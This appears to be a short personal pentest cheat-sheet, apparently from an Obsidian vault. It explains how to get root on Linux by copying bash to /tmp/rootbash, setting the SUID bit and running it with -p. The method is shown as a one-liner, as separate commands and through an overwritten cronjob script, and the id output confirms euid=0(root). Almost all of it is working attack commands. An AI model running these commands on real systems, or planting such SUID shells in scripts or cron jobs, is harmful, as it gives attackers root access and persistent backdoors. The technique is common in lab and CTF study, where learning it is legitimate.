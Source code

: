 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### 1 liner
```bash - target
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p
```

#### Multi command
```bash - target
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

```bash - target
/tmp/rootbash -p
```

#### Script / cronjob
```bash - target
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

```bash - target
chmod +x /home/user/overwrite.sh
```

Wait for the cronjob to run (this job in particular runs every minute).

Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

```bash - target
/tmp/rootbash –p
```

```bash - target
id
```

>uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
